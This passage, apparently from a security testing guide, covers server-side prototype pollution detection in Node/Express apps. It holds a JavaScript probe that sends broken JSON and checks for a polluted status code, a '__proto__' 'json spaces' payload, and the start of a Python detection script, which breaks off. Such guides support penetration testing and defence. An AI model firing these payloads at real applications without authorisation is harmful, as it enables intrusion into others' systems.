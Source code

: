            // Now, send a broken request to trigger an error
           try {
               const brokenResponse = await fetch(url, {
                   method: 'POST',
                   headers: { 'Content-Type': 'application/json' },
                   body: '{"broken: json}'  // Intentionally broken JSON
               });
               
               const errorData = await brokenResponse.json();
               console.log("Error response:", errorData);
               
               // Check if our pollution worked
               if (
                   errorData.status === 555 || 
                   errorData.statusCode === 555 || 
                   errorData.message === "PP_TEST_SUCCESSFUL" ||
                   errorData.error?.status === 555 ||
                   errorData.error?.message === "PP_TEST_SUCCESSFUL"
               ) {
                   console.log("Prototype pollution detected via status code/message manipulation!");
                   return true;
               }
           } catch (e) {
               console.log("Error testing pollution:", e);
           }
           
           return false;
       }
       ```

    4. **JSON spaces manipulation for detection**:
       - Step 1: Send a pollution attempt targeting the `json spaces` property:
       ```json
       {
         "__proto__": {
           "json spaces": 10
         }
       }
       ```
       - Step 2: Make a request that returns JSON data
       - Step 3: Check if the JSON response has extensive indentation (10 spaces)
       - Step 4: Use this as a confirmation that prototype pollution is possible
       - Step 5: Proceed with more impactful exploitation
       - Example: Applications using Express's res.json() or similar functions
       - Testing insight: This provides a non-destructive way to confirm pollution success
       - Python detection script:
       ```python
       import requests
       import json
       
       def check_json_spaces_pollution(url):
           # Send the pollution payload
           pollution_payload = {
               "__proto__": {
                   "json spaces": 10
               }
           }
           